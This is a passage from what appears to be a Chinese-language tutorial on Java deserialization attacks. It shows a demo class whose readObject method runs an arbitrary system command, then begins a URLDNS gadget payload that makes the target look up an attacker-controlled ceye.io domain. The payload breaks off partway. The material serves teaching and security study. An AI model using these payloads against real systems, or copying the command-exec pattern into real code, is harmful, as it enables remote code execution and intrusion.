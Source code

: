 ```java
```


`Test1.java`
```java

import java.lang.Runtime;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.lang.ClassNotFoundException;


public class Cmd implements java.io.Serializable {

    public String cmd;

    Cmd(String s){
        this.cmd = s;
    }

    private void readObject(ObjectInputStream s) throws IOException,ClassNotFoundException{
        s.defaultReadObject();
        System.out.println(cmd);
        Runtime.getRuntime().exec(cmd);

    }

}

```

![NOnDGF.png](https://s1.ax1x.com/2020/07/03/NOnDGF.png)


## 四、URLDNS漏洞 分析


### ①、payload

该反序列化会导致一次dns 请求
利用过程（借用安全客的payload）
```java
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class URLDNS {
    public static void main(String[] args) throws Exception {
        //0x01.生成payload
        //设置一个hashMap
        HashMap<URL, String> hashMap = new HashMap<URL, String>();
        //设置我们可以接受DNS查询的地址
        URL url = new URL("http://aaaa.v36qps.ceye.io");
        //将URL的hashCode字段设置为允许修改
        Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");
        f.setAccessible(true);
        //**以下的蜜汁操作是为了不在put中触发URLDNS查询，如果不这么写就会触发两次（之后会解释）**
        //1. 设置url的hashCode字段为0xdeadbeef（随意的值）
        f.set(url, 0xdeadbeef);
        //2. 将url放入hashMap中，右边参数随便写
        hashMap.put(url, "rmb122");
```